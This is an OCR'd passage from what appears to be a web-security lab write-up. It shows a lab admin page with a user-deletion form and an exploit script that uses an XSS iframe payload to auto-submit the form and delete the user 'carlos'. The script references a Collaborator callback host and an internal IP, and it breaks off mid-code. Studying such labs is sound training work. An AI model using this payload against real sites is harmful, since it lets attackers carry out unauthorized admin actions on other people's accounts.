 ```js
								<polygon points="14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15"></polygon>
							</g>
						</svg>
					</a>
				</div>
				<div class="widgetcontainer-lab-status is-notsolved">
					<span>LAB</span>
					<p>Not solved</p>
					<span class="lab-status-icon"></span>
				</div>
			</div>
		</section></div>
	

<div theme="">
	<section class="maincontainer">
		<div class="container is-page">
			<header class="navigation-header">
				<section class="top-links">
					<a href="/">Home</a><p>|</p>
					<a href="/admin">Admin panel</a><p>|</p>
					<a href="/my-account?id=administrator">My account</a><p>|</p>
				</section>
			</header>
			<header class="notification-header">
			</header>
			<form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
				<input required="" type="hidden" name="csrf" value="SZSSYeSk75xIOzskjR4N0celzydxaYEt">
				<label>Username</label>
				<input required="" type="text" name="username">
				<button class="button" type="submit">Delete user</button>
			</form>
		</div>
	</section>
	<div class="footer-wrapper">
	</div>
</div>
```

4. We are going to use the XSS vulnerability to delete the Carlos user.

**Script to delete the user Carlos** - 
```js
<html>
    <script>
    collaboratorURL = 'http://w638wusq9v08mm9rfq3w1lhm4da4yumj.oastify.com';
    url = 'http://192.168.0.159:8080'

    fetch(url)
    .then(response => response.text())
    .then(text => {
        try{
            // The below XSS vector can be different depending on the version of web server
            xss_vector = '"><iframe src=/admin onload="
            var f = this.contentWindow.document.forms[0]; 
            if(f.username){
                f.username.value = \'carlos\';
            }
                f.submit();
            ">';

```